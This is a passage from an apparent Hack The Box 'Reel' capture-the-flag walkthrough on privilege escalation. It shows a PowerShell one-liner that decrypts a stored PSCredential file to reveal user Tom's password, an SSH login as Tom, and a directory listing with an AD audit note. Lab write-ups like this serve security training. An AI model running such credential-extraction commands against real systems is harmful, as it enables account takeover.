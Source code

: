 ### Privilege Escalation

Also of interest in Nico's desktop is a file called cred.xml, which appears to have a password hash for user Tom:

![cred.png](../assets/reel_assets/cred.png)

To crack this PSCredential hash we can run:

```text
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
```
![crack.png](../assets/reel_assets/crack.png)

Armed with this password we can now SSH in as user Tom:

```text
┌──(ryan㉿kali)-[~/HTB/Reel]
└─$ ssh tom@HTB.LOCAL
tom@htb.local's password:
```

Taking a look in Tom's Desktop folder we find some interesting contents:

```text
 Directory of C:\Users\tom\Desktop\AD Audit                                                                                  

05/29/2018  09:02 PM    <DIR>          .                                                                                     
05/29/2018  09:02 PM    <DIR>          ..                                                                                    
05/30/2018  12:44 AM    <DIR>          BloodHound                                                                            
05/29/2018  09:02 PM               182 note.txt                                                                              
               1 File(s)            182 bytes                                                                                
               3 Dir(s)   4,979,924,992 bytes free                                                                           

tom@REEL C:\Users\tom\Desktop\AD Audit>type note.txt 
Findings:                                                                                                                    

Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).                               
```